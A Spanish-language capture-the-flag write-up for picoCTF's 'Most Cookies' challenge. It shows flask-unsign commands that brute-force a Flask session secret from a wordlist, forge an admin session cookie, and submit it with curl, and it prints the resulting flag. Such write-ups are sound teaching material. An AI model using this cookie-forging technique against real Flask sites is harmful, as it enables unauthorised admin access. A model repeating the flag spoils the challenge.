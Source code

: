 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
Hints:
1. How secure is a flask cookie?
## Solución 

Visualizamos el archivo llamado server.py, donde podemos visualizar los nombres de las galletas con la que se firmo la galleta. Para saber cual de las galletas fue utilizada usamos la herramienta flask-unsign. Con ello, podemos crear otra galleta firmada correctamente para que ser admin y asi obtener la galleta
~~~
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_7NCg.q-25vcdyPIAS8k-JJ3hnusDVCmg" --wordlist galletas.txt

[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'

srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "fortune"

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_7QTw.FdBRxn9LQzZYjGkxLeaBif_DRdc

srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$ curl -s

http://mercury.picoctf.net:65344/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_7QTw.FdBRxn9LQzZYjGkxLeaBif_DRdc" | grep pico

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
            
srriv@LAPTOP-7DDM83G8:~/SRSS/mostcookies$
~~~

~~~
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
~~~

## Notas adicionales 
## Referencias


